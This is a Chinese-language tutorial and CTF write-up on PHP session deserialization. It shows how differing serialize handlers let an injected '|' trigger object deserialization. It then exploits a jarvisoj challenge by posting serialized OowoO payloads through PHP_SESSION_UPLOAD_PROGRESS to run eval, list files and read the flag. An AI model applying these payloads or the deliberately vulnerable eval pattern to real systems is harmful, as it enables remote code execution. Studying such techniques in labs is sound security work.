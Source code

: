 [带你走进PHP session反序列化漏洞](https://xz.aliyun.com/t/6640#toc-10)

## session反序列化

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`username|s:4:"asdf";`(键名+竖线+经过`serialize()`函数序列处理的值)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`a:1:{s:8:"username";s:4:"asdf";}`(经过`serialize()`函数序列化处理的数组)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_binary');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

![](PHP_Session.png)

`usernames:4:"asdf";`(**键名的长度**对应的ASCII字符(BS的ASCII为8)+键名+经过`serialize()`函数序列化处理的值)

**当序列化的引擎和反序列化的引擎不一致时,就可以利用引擎之间的差异产生序列化注入漏洞**

[https://www.php.net/session_start/](https://www.php.net/session_start/)

>当会话自动开始或者通过session_start()手动开始的时候，PHP内部会调用会话管理器的open和read回调函数。会话管理器可能是PHP默认的，也可能是扩展提供的（SQLite或者Memcached扩展），也可能是通过session_set_save_handler()设定的用户自定义会话管理器。通过read回调函数返回的现有会话数据（使用特殊的序列化格式存储），PHP 会**自动反序列化数据并且填充$_SESSION超级全局变量**

```php
<?php
//1.php
error_reporting(0);
ini_set('session.serialize_handler', 'php_serialize');//使用php_serialize引擎存储
session_start();
$_SESSION['username'] = $_GET['user'];
var_dump($_SESSION);
?>
```

```php
<?php
//2.php
error_reporting(0);
ini_set('session.serialize_handler', 'php');//使用php引擎存储
session_start();

class user
{
    var $name = "zhangsan";

    public function __destruct()
    {
        echo $this->name;
    }
}
?>
```

对于`php_serialize`引擎来说`|`是一个普通字符,但对于`php`引擎来说`|`是键名与序列化值的分隔符,从而在解析的时候造成了歧义,导致其在解析Session文件时直接对`|`后的值进行反序列化处理

对`1.php`传入`?user=|O:4:"user":1:{s:4:"name";s:4:"asdf";}`此时的`sess`文件为`a:1:{s:8:"username";s:38:"|O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`

调用`2.php`,`php`引擎将`|`作为分隔符处理,前半部分`a:1:{s:8:"username";s:38:"`被`php`引擎作为Session的键值处理,后半部分`O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`被Session自动反序列化,从而调用2.php中的user类

---

可能存在无法直接对Session赋值的情况

[https://www.php.net/manual/zh/session.upload-progress.php](https://www.php.net/manual/zh/session.upload-progress.php)

>当`session.upload_progress.enabled`的INI选项开启时，PHP能够在每一个文件上传时监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时**POST一个与INI中设置的session.upload_progress.name同名变量**时，上传进度可以在`$_SESSION`中获得。当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据,索引是`session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值。

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

|Directive|Local Value|Master Value|
|:---:|:---:|:---:|
|session.serialize_handler|**php**|**php_serialize**|
|session.upload_progress.cleanup|Off|Off|
|session.upload_progress.enabled|On|On|
|session.upload_progress.freq|1%|1%|
|session.upload_progress.min_freq|1|1|
|session.upload_progress.name|PHP_SESSION_UPLOAD_PROGRESS|PHP_SESSION_UPLOAD_PROGRESS|
|session.upload_progress.prefix|upload_progress_|upload_progress_|

引擎存在差异,存在反序列化漏洞,`session.upload_progress.enabled==On`,可以进行文件上传

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

随便提交一个文件得到`Array ( [0] => . [1] => .. [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php [3] => index.php [4] => phpinfo.php )`

![](PHP_Session_Upload1.png)

已知`DOCUMENT_ROOT`为`/opt/lampp/htdocs`,通过`file_get_contents`对flag进行读取

```php
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

![](PHP_Session_Upload2.png)